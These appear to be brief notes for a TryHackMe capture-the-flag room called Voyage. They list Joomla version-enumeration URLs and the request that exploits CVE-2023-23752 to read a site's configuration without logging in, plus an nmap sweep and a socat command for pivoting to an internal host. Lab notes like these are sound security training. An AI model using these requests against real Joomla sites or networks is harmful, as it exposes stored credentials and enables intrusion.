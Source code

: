 # for tryhackme room Voyage https://tryhackme.com/room/voyage
# Youtube video walk through: https://youtu.be/vB2KG0V-oc0

Joomla Version:

https://github.com/OWASP/joomscan

http[:]//10[.]10[.]113[.]54/README.txt
http[:]//10[.]10[.]113[.]54/administrator/manifests/files/joomla.xml

CVE-2023-23752

http[:]//10[.]10[.]113[.]54/api/index.php/v1/config/application?public=true

nmap -sn 192.168.100.0/24

socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000 &
